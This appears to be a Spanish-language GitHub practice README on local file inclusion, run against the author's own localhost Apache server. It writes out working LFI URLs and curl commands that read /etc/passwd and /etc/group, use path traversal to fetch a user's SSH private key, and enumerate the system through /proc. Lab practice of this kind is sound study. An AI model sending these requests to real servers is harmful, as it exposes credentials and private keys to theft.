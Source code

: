 # _test_LFI-RFI_

# _practica de hackinWeb jugando con LFI/RFI de forma remota o local_


    "PRACTICA LOCAL"
    #################################
    #       PRACTICA LFI		#
    #################################

        NOS DIRIGIMOS A NUESTRO DIRECTORIO DE TRABAJO

    #cd /var/www/html


        ACTIVAMOS EL EL SERVICIO "APACHE2"
    ┌──(josema96㉿kali)-[~]
    └─$ sudo service apache2 start

        COMFIRMAMOS SI ESTA ACTIVADO EL "APACHE2"
    ┌──(josema96㉿kali)-[/var/www/html]
    └─$ sudo lsof -i:80
    apache2 xxxx www-data  xx  IPv6 xxxxxxx  0t0  TCP *:http (LISTEN) #PERFECTO EL "APACHE2 ESTA EN ESCUCHA"


    CREAMOS UN SCRIPT EN PHP #===con el editor nano===#
            test.txt
    ============se tensa que te cagas #...# hola esto es una prueba de "LFI" CON JOSEMA=============

    ***************************************************************************************************************************
      UNA VES CREADA VAMOS A INTENTAR CARGAR EL ARCHIVO EN NUESTRO "LOCALHOSTS" DONDE ESTA ESCUCHANDO "APACHE2"

    http://localhost/example.php?FILE=test.txt
    ============se tensa que te cagas #...# hola esto es una prueba de "LFI" CON JOSEMA=============
    ***************************************************************************************************************************
    http://localhost/example.php?FILE=/etc/group
    http://localhost/example.php?FILE=/etc/passwd

    #con "curl" podemos ver algo mas relevante

    #enumerar usuario valido=existente
    curl -s "http://localhost/example.php?FILE=/etc/passwd" | grep "sh$"

    #listar "id_rsa"
    curl -s http://localhost/test.php?page=../../../home/josema96/.ssh/id_rsa/

    #ENUMERAR SISTEMA
    http://localhost/example.php?FILE=/proc/sched_debug

    #creamos un archivo
      sudo nano encuentrame.sh
    #!/bin/bash
    sleep 100
